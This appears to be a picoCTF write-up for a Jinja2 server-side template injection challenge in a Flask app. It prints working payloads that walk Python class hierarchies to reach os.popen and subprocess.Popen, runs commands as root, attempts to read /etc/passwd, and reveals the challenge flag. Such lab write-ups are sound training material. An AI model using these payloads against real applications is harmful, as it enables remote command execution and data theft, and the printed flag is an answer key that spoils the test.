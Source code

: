 ###SSTI1###

From: https://play.picoctf.org/practice/challenge/492

Author: Venax

Description: I made a cool website where you can announce whatever you want! Try it out!

Tags: Easy, Web Exploitation, PicoCTF 2025, browser_webshell_solvable
---

Beginning of challenge:

Immediately after launching the challenge instance you are directed to a website with basic html and a prominent form to announce to the site.
![image](https://github.com/user-attachments/assets/d9dd00a3-09f9-4cb6-9dd2-df17e5687f33)

After entering a string to the form, the website directs you to an announce page with your input text displayed.
![image](https://github.com/user-attachments/assets/b52c3e2b-6229-4f52-bb75-4f2cce7b377e)

<details>

Directly changing your URL to this announce page doesn't yield results:
![image](https://github.com/user-attachments/assets/e3fa69cf-67f8-43e9-a89c-89bcbc10ebdc)

After some experimentation, I wasn't able to deduce whether this something SQL exploitable, and decided to take the hint from the PicoCTF instance. This revealed the exploit for this CTF is known as server-side-template injection.

The portswigger article: https://portswigger.net/web-security/server-side-template-injection describes this explot as __"when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side."__

After futher experimentation, and now understanding that string formatting is often performed using curly brackets {}, sending the server the a set of nested curly brackets {{}} resulted in an internal server error, error 500.
![image](https://github.com/user-attachments/assets/2b0066c4-0e89-49c9-b0a3-d1c87fede2b3)

When placing any plaintext within these braces, the error dissapears and completely blank HTML page is returned when the form is executed.

Based on the error returned, it might be possible that this application is a Flask application, see: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application.

To confirm server side execution ability, we sent {{7*7}} which resulted in the page showing me the numbers 49. This implies that anything we place within the double curly braces can be evaluated. 

Following along with the portswigger article, and the indentify section, we determine that this is framework is likely using Jinja
![image](https://github.com/user-attachments/assets/1a2aee31-7607-4b5e-916c-16786617ba99)
"The payload {{7*'7'}} returns 49 in Twig and 7777777 in Jinja2."

Now that we know it is Jinja2, I found https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ to be useful for specifics regarding exploitation of this framework. Similarly, the Jinja docs were useful for referencing what the OnSecurity aricle was discussing: https://jinja.palletsprojects.com/en/stable/api/#jinja2.Environment

Sending: {{global_name.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

Sending: {{global_name.__class__.__base__}}
Returns: <class 'object'>

Sending: {{g.__class__.__mro__}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Sending: {{g.__class__.mro()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['mro']()}}
Returns: [<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>]

Sending: {{g['__class__']['__mro__']}}
Returns: (<class 'flask.ctx._AppCtxGlobals'>, <class 'object'>)

Furthermore from the OnSecurity article, I played around with some of the payloads discussed there...

Sending: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
Returns: uid=0(root) gid=0(root) groups=0(root) 

From the developing an exploiut in https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/#payload-development-from-0...
![image](https://github.com/user-attachments/assets/b23ae18f-6e68-48c6-8b1a-6632659c9392)

Sending: {{get_flashed_messages}}
Returns: <function get_flashed_messages at 0x75e143dc5550>

Sending: {{get_flashed_messages.__class__}}
Returns: <class 'function'>

Sending: {{get_flashed_messages.__class__.__mro__}}
Returns: (<class 'function'>, <class 'object'>)

Sending: {{get_flashed_messages.__class__.__mro__[1]}}
Returns: <class 'object'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()}}
Returns: This returns all the subclasses for the get_flashed_messages object subclass. It is very long so I haven't included it
![image](https://github.com/user-attachments/assets/b9684b62-ef29-4c30-b91b-4f48e44aa67a)

Sending: {{g}}
Returns: <flask.g of 'app'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]}}
Returns: <class 'mappingproxy'>

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd')}}
Returns: /etc/passwd

Sending: {{get_flashed_messages.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read()}}
Returns: __Internal server error__


After a bit of further self experimentation, I took the 'app' name of the application and started parsing some similar dunder methods to it to see what was getting returned, maybe we can find our winfunction this way.

Sending: {{app.__class__}}
Returns: <class 'jinja2.runtime.Undefined'>

Sending: {{app.__class__.__mro__}}
Returns: (<class 'jinja2.runtime.Undefined'>, <class 'object'>)

When sending: {{app.__class__.__mro__[1].__subclasses__()}}, I received all the subclasses again, This time I put this into my IDE and replaced all commas with newlines to better visualise this set.
![image](https://github.com/user-attachments/assets/d53d70c7-0f86-4da5-a79a-df0aafcc8655)

I decided to hone in on <class 'subprocess.Popen'> and returned this by indexing the above function with [356]. 
>> {{app.__class__.__mro__[1].__subclasses__()[356]}}

Popen is expliotable because __"The popen() function shall execute the command specified by the string command. It shall create a pipe between the calling program and the executed command, and shall return a pointer to a stream that can be used to either read from or write to the pipe."__
from: https://pubs.opengroup.org/onlinepubs/009696799/functions/popen.html
![image](https://github.com/user-attachments/assets/d06d5171-459f-4511-9f12-c1688e3d9264)

We can now execute Popen by specifying the above string which I will shorten to PAY1
{{app.__class__.__mro__[1].__subclasses__()[356]}} = PAY1

PAY1(<args>, stdout=-1).communicate()[0].decode()

if we want to list the current directory, we can pass the linux commands ls to the args via a list:

Sending: {{app.__class__.__mro__[1].__subclasses__()[356](['ls', '-la], stdout=-1).communicate()[0].decode()}}
Returns:
total 12
drwxr-xr-x 1 root root    25 Apr 13 03:37 .
drwxr-xr-x 1 root root    23 Apr 13 03:37 ..
drwxr-xr-x 2 root root    32 Apr 13 03:37 __pycache__
-rwxr-xr-x 1 root root  1241 Mar  6 03:27 app.py
-rw-r--r-- 1 root root    58 Mar  6 19:43 flag
-rwxr-xr-x 1 root root   268 Mar  6 03:27 requirements.txt

Seems like we found a flag file, lets check out what the requirements.txt are first.
Seems like the decode() function was throwing an error, removing this and converting this separately in python allowed us to see the following:

ÿþblinker==1.8.2
click==8.1.7
colorama==0.4.6
Flask==3.0.3
itsdangerous==2.2.0
Jinja2==3.1.4
MarkupSafe==2.1.5
Werkzeug==3.0.3

Seems like just details for the application to run, maybe a docker thing?

Anyways, lets cat the flag with:
{{app.__class__.__mro__[1].__subclasses__()[356](['cat', 'flag'], stdout=-1).communicate()[0].decode()}}

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}

Whoopee!

Applications used during CTF:
-Kali Linux (OS)
-Mozilla Firefox (Web Browser)
-Visual Studio Code

Core sources of information:
Portswigger: https://portswigger.net/web-security/server-side-template-injection#constructing-a-server-side-template-injection-attack
  - Overview of Server Side Template Injection

DigitalOcean: https://www.digitalocean.com/community/tutorials/how-to-handle-errors-in-a-flask-application
  - Understanding some error handling characteristics of Flask applications

Jinja: https://jinja.palletsprojects.com/en/stable/templates/
  - Understanding templating documentation and implementation

PythonDocs: https://docs.python.org/3/library/subprocess.html#subprocess.Popen
  - Understanding Popen

ChatGPT: https://chatgpt.com/
  - Getting an overview of common vulnerable subclasses and understanding the syntax of parsing lists to the Popen function.

</details>


